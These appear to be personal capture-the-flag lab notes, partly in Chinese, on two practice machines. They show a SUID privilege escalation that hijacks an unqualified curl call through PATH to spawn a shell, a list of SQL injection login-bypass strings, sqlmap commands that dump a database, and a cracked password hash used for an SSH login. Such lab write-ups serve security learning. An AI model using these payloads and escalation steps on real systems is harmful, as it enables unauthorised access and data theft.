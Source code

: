 	SUID  :
		--> find / -perm -u=s -type f 2>/dev/null
			=> /usr/bin/menu
		--> 運行二進位文件
			--> /usr/bin/menu
		--> Strings : 用於在二進位檔案中尋找人類可讀的字串
			--> Strings /usr/bin/menu	
				=> found that curl use 	不完整路徑
					=> curl -I localhost
	不指定完整路徑
		--> 系統將查看 PATH 變數並在路徑中指定的所有位置中搜尋所需檔案
		--> export PATH=/tmp:$PATH
		
		--> cd /tmp
		--> echo /bin/sh > curl
		--> chmod 777 curl
		--> export PATH=/tmp:$PATH
		--> /usr/bin/menu
## Game Zone : 
	--> SQL : SELECT * FROM users WHERE username = :username AND password := password
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	SQLi
		=> admin' --
		=> admin' #
		=> admin'/*
		=> ' or 1=1--
		=> ' or 1=1#
		=> ' or 1=1/*
		=> ') or '1'='1--
		=> ') or ('1'='1--
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> burpsuite 
		--> /portal.php  => save to request.txt
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	-->SQLMap
		--> 自動 SQL 注入和資料庫接管工具
		--> sqlmap -r request.txt --dbms=mysql --dump
			-r 使用您之前保存的攔截請求
			--dbms告訴 SQLMap 它是什麼類型的資料庫管理系統
			--dump嘗試輸出整個資料庫
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> sqlmap -r request.txt -D db --table
			=> fetching table for database: 'db'
		--> sqlmap -r request.txt --dump -D db -T users 
			=> | ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> password :	
		--> john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
		=> videogamer124
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> login 
		--> ssh agent47@10.10.144.38
